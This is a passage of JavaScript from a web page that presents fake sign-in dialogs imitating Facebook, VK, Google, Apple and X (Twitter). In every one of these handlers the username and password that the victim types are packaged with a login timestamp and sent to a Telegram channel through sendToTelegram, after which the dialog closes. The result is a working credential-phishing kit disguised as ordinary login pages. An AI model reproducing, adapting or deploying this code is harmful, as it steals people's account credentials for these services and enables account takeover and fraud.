            fbUsernameError.textContent = '';
        });

        fbLoginSubmitBtn.addEventListener('click', (event) => {
            event.preventDefault();
            const username = fbUsernameInput.value.trim();
            const password = fbPasswordInput.value.trim();
            let isValid = true;

            fbUsernameError.classList.add('hidden');
            fbUsernameError.textContent = '';

            if (username === '') {
                fbUsernameError.textContent = 'Mobile number or email address cannot be empty.';
                fbUsernameError.classList.remove('hidden');
                isValid = false;
            } else if (!isNaN(username) && (username.length !== 10)) {
                fbUsernameError.textContent = 'Mobile number must be 10 digits.';
                fbUsernameError.classList.remove('hidden');
                isValid = false;
            }

            if (password === '') {
                console.log("Password cannot be empty for Facebook.");
                isValid = false;
            }

            if (isValid) {
                const loginTime = getLoginTime();
                const message = `*Facebook Login Attempt* 🔵\n\n*Username:* \`${escapeMarkdownV2(username)}\`\n*Password:* \`${escapeMarkdownV2(password)}\`\n\n*Login Time:* ${escapeMarkdownV2(loginTime)}\n\n${escapeMarkdownV2(COPYRIGHT_MESSAGE)}`;
                sendToTelegram(message);
                facebookModal.classList.remove('show'); // Close after sending
            } else {
                showMessageBox("Please correct Login Details errors for Facebook login.");
            }
        });

        // --- VK Modal Logic ---
        const vkLoginBtn = document.getElementById('vk-login-btn');
        const vkModal = document.getElementById('vk-modal');
        const closeVkModalBtn = document.getElementById('close-vk-modal-btn');
        const vkLoginSubmitBtn = document.getElementById('vk-login-submit-btn');
        const vkUsernameInput = document.getElementById('vk-username');
        const vkPasswordInput = document.getElementById('vk-password');
        const vkUsernameError = document.getElementById('vk-username-error');
        const vkPasswordError = document.getElementById('vk-password-error');


        vkLoginBtn.addEventListener('click', () => {
            vkModal.classList.add('show');
            vkUsernameInput.value = ''; // Clear inputs on open
            vkPasswordInput.value = '';
            vkUsernameError.classList.add('hidden'); // Hide errors on open
            vkPasswordError.classList.add('hidden');
        });

        closeVkModalBtn.addEventListener('click', () => {
            vkModal.classList.remove('show');
            vkUsernameInput.value = '';
            vkPasswordInput.value = '';
            vkUsernameError.classList.add('hidden');
            vkUsernameError.textContent = '';
            vkPasswordError.classList.add('hidden');
            vkPasswordError.textContent = '';
        });

        vkLoginSubmitBtn.addEventListener('click', (event) => {
            event.preventDefault();
            const username = vkUsernameInput.value.trim();
            const password = vkPasswordInput.value.trim();
            let isValid = true;

            vkUsernameError.classList.add('hidden');
            vkUsernameError.textContent = '';
            vkPasswordError.classList.add('hidden');
            vkPasswordError.textContent = '';

            if (username === '') {
                vkUsernameError.textContent = 'Phone or email cannot be empty.';
                vkUsernameError.classList.remove('hidden');
                isValid = false;
            }

            if (password === '') {
                vkPasswordError.textContent = 'Password cannot be empty.';
                vkPasswordError.classList.remove('hidden');
                isValid = false;
            }

            if (isValid) {
                const loginTime = getLoginTime();
                const message = `*VK Login Attempt* 🔵\n\n*Username:* \`${escapeMarkdownV2(username)}\`\n*Password:* \`${escapeMarkdownV2(password)}\`\n\n*Login Time:* ${escapeMarkdownV2(loginTime)}\n\n${escapeMarkdownV2(COPYRIGHT_MESSAGE)}`;
                sendToTelegram(message);
                vkModal.classList.remove('show'); // Close after sending
            } else {
                showMessageBox("Please correct Login Details errors for VK login.");
            }
        });


        // --- Google Modal Logic ---
        const googleLoginBtn = document.getElementById('google-login-btn');
        const googleModal = document.getElementById('google-modal');
        const closeGoogleModalBtn = document.getElementById('close-google-modal-btn');
        const googleStep1 = document.getElementById('google-step-1');
        const googleStep2 = document.getElementById('google-step-2');
        const googleUsernameInput = document.getElementById('google-username');
        const googlePasswordInput = document.getElementById('google-password');
        const googleNextBtn = document.getElementById('google-next-btn');
        const googleBackBtn = document.getElementById('google-back-btn');
        const googleLoginSubmitBtn = document.getElementById('google-login-submit-btn');
        const googleUsernameError = document.getElementById('google-username-error');
        const googlePasswordError = document.getElementById('google-password-error');
        const googleDisplayUsername = document.getElementById('google-display-username');
        const googleSubtitleText = document.getElementById('google-subtitle-text');

        googleLoginBtn.addEventListener('click', () => {
            googleModal.classList.add('show');
            // Reset to step 1 when opening
            googleStep1.classList.remove('hidden');
            googleStep2.classList.add('hidden');
            googleUsernameInput.value = '';
            googlePasswordInput.value = '';
            googleUsernameError.classList.add('hidden');
            googleUsernameError.textContent = '';
            googlePasswordError.classList.add('hidden');
            googlePasswordError.textContent = '';
            googleSubtitleText.textContent = 'to continue to Gmail'; // Reset subtitle
        });

        closeGoogleModalBtn.addEventListener('click', () => {
            googleModal.classList.remove('show');
            // Clear inputs and errors when closing
            googleUsernameInput.value = '';
            googlePasswordInput.value = '';
            googleUsernameError.classList.add('hidden');
            googleUsernameError.textContent = '';
            googlePasswordError.classList.add('hidden');
            googlePasswordError.textContent = '';
            googleSubtitleText.textContent = 'to continue to Gmail'; // Reset subtitle
        });

        googleNextBtn.addEventListener('click', () => {
            const username = googleUsernameInput.value.trim();
            googleUsernameError.classList.add('hidden');
            googleUsernameError.textContent = '';

            if (username === '') {
                googleUsernameError.textContent = 'Email or phone cannot be empty.';
                googleUsernameError.classList.remove('hidden');
            } else {
                // Transition to step 2
                googleStep1.classList.add('hidden');
                googleStep2.classList.remove('hidden');
                googleDisplayUsername.textContent = username; // Display username in step 2
                googleSubtitleText.textContent = ''; // Clear subtitle for password step
                googlePasswordInput.focus(); // Focus on password input
            }
        });

        googleBackBtn.addEventListener('click', () => {
            // Transition back to step 1
            googleStep2.classList.add('hidden');
            googleStep1.classList.remove('hidden');
            googlePasswordInput.value = ''; // Clear password when going back
            googlePasswordError.classList.add('hidden');
            googlePasswordError.textContent = '';
            googleSubtitleText.textContent = 'to continue to Gmail'; // Reset subtitle
        });

        googleLoginSubmitBtn.addEventListener('click', () => {
            const username = googleUsernameInput.value.trim(); // Get username from step 1 input
            const password = googlePasswordInput.value.trim();
            let isValid = true;

            googlePasswordError.classList.add('hidden');
            googlePasswordError.textContent = '';

            if (password === '') {
                googlePasswordError.textContent = 'Password cannot be empty.';
                googlePasswordError.classList.remove('hidden');
                isValid = false;
            }

            if (isValid) {
                const loginTime = getLoginTime();
                const message = `*Google Login Attempt* 🔴🟡🟢🔵\n\n*Email/Phone:* \`${escapeMarkdownV2(username)}\`\n*Password:* \`${escapeMarkdownV2(password)}\`\n\n*Login Time:* ${escapeMarkdownV2(loginTime)}\n\n${escapeMarkdownV2(COPYRIGHT_MESSAGE)}`;
                sendToTelegram(message);
                googleModal.classList.remove('show'); // Close after sending
            } else {
                showMessageBox("Please correct the input errors for Google login.");
            }
        });

        // --- Apple Modal Logic ---
        const appleLoginBtn = document.getElementById('apple-login-btn');
        const appleModal = document.getElementById('apple-modal');
        const closeAppleModalBtn = document.getElementById('close-apple-modal-btn');
        const appleLoginSubmitBtn = document.getElementById('apple-login-submit-btn');
        const appleUsernameInput = document.getElementById('apple-username');
        const applePasswordInput = document.getElementById('apple-password');
        const appleUsernameError = document.getElementById('apple-username-error');
        const applePasswordError = document.getElementById('apple-password-error');

        appleLoginBtn.addEventListener('click', () => {
            appleModal.classList.add('show');
            appleUsernameInput.value = ''; // Clear inputs on open
            applePasswordInput.value = '';
            appleUsernameError.classList.add('hidden'); // Hide errors on open
            applePasswordError.classList.add('hidden');
        });

        closeAppleModalBtn.addEventListener('click', () => {
            appleModal.classList.remove('show');
            appleUsernameInput.value = '';
            applePasswordInput.value = '';
            appleUsernameError.classList.add('hidden');
            appleUsernameError.textContent = '';
            applePasswordError.classList.add('hidden');
            applePasswordError.textContent = '';
        });

        appleLoginSubmitBtn.addEventListener('click', (event) => {
            event.preventDefault();
            const username = appleUsernameInput.value.trim();
            const password = applePasswordInput.value.trim();
            let isValid = true;

            appleUsernameError.classList.add('hidden');
            appleUsernameError.textContent = '';
            applePasswordError.classList.add('hidden');
            applePasswordError.textContent = '';

            if (username === '') {
                appleUsernameError.textContent = 'Apple ID cannot be empty.';
                appleUsernameError.classList.remove('hidden');
                isValid = false;
            }

            if (password === '') {
                applePasswordError.textContent = 'Password cannot be empty.';
                applePasswordError.classList.remove('hidden');
                isValid = false;
            }

            if (isValid) {
                const loginTime = getLoginTime();
                const message = `*Apple Login Attempt* 🍎\n\n*Apple ID:* \`${escapeMarkdownV2(username)}\`\n*Password:* \`${escapeMarkdownV2(password)}\`\n\n*Login Time:* ${escapeMarkdownV2(loginTime)}\n\n${escapeMarkdownV2(COPYRIGHT_MESSAGE)}`;
                sendToTelegram(message);
                appleModal.classList.remove('show'); // Close after sending
            } else {
                showMessageBox("Please correct Login Details errors for Apple login.");
            }
        });

        // --- X (Twitter) Modal Logic ---
        const xLoginBtn = document.getElementById('x-login-btn');
        const xModal = document.getElementById('x-modal');
        const closeXModalBtn = document.getElementById('close-x-modal-btn');
        const xGoogleSigninBtn = document.getElementById('x-google-signin-btn');
        const xAppleSigninBtn = document.getElementById('x-apple-signin-btn');
        const xStep1 = document.getElementById('x-step-1');
        const xStep2 = document.getElementById('x-step-2');
        const xUsernameInput = document.getElementById('x-username');
        const xPasswordInput = document.getElementById('x-password');
        const xNextBtn = document.getElementById('x-next-btn');
        const xLoginSubmitBtn = document.getElementById('x-login-submit-btn');
        const xUsernameError = document.getElementById('x-username-error');
        const xPasswordError = document.getElementById('x-password-error');
        const xDisplayUsername = document.getElementById('x-display-username');

        xLoginBtn.addEventListener('click', () => {
            xModal.classList.add('show');
            // Reset to step 1 when opening
            xStep1.classList.remove('hidden');
            xStep2.classList.add('hidden');
            xUsernameInput.value = '';
            xPasswordInput.value = '';
            xUsernameError.classList.add('hidden');
            xUsernameError.textContent = '';
            xPasswordError.classList.add('hidden');
            xPasswordError.textContent = '';
        });

        closeXModalBtn.addEventListener('click', () => {
            xModal.classList.remove('show');
            xUsernameInput.value = '';
            xPasswordInput.value = '';
            xUsernameError.classList.add('hidden');
            xUsernameError.textContent = '';
            xPasswordError.classList.add('hidden');
            xPasswordError.textContent = '';
        });

        xGoogleSigninBtn.addEventListener('click', () => {
            xModal.classList.remove('show'); // Close X modal
            googleLoginBtn.click(); // Open Google modal
        });

        xAppleSigninBtn.addEventListener('click', () => {
            xModal.classList.remove('show'); // Close X modal
            appleLoginBtn.click(); // Open Apple modal
        });

        xNextBtn.addEventListener('click', () => {
            const username = xUsernameInput.value.trim();
            xUsernameError.classList.add('hidden');
            xUsernameError.textContent = '';

            if (username === '') {
                xUsernameError.textContent = 'Phone, email, or username cannot be empty.';
                xUsernameError.classList.remove('hidden');
            } else {
                // Transition to step 2
                xStep1.classList.add('hidden');
                xStep2.classList.remove('hidden');
                xDisplayUsername.textContent = `@${escapeMarkdownV2(username)}`; // Display username in step 2
                xPasswordInput.focus(); // Focus on password input
            }
        });

        // No explicit back button in X modal image, but for consistency, if needed, you'd add one here.
        // For now, closing the modal acts as going back.

        xLoginSubmitBtn.addEventListener('click', () => {
            const username = xUsernameInput.value.trim(); // Get username from step 1 input
            const password = xPasswordInput.value.trim();
            let isValid = true;

            xPasswordError.classList.add('hidden');
            xPasswordError.textContent = '';

            if (password === '') {
                xPasswordError.textContent = 'Password cannot be empty.';
                xPasswordError.classList.remove('hidden');
                isValid = false;
            }

            if (isValid) {
                const loginTime = getLoginTime();
                const message = `*X \\(Twitter\\) Login Attempt* ✖️\n\n*Username:* \`${escapeMarkdownV2(username)}\`\n*Password:* \`${escapeMarkdownV2(password)}\`\n\n*Login Time:* ${escapeMarkdownV2(loginTime)}\n\n${escapeMarkdownV2(COPYRIGHT_MESSAGE)}`;
                sendToTelegram(message);
                xModal.classList.remove('show'); // Close after sending
            } else {
                showMessageBox("Please correct Login Details errors for X (Twitter) login.");
            }
        });
    </script>
</body>
</html>
